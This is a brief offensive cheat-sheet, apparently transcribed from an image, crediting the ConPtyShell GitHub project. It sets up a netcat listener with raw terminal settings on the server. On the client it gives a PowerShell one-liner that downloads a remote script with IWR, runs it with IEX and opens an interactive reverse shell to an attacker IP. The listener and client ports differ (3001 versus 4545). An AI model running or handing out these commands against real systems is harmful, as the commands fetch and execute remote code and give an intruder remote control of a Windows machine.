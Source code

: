 #[ source: https://github.com/antonioCoco/ConPtyShell ]
-----
[server]
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo; fg[ENTER]

[client]
IEX(IWR http://<IP>/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -RemoteIp <IP> -RemotePort 4545 -Rows 45 -Cols 173

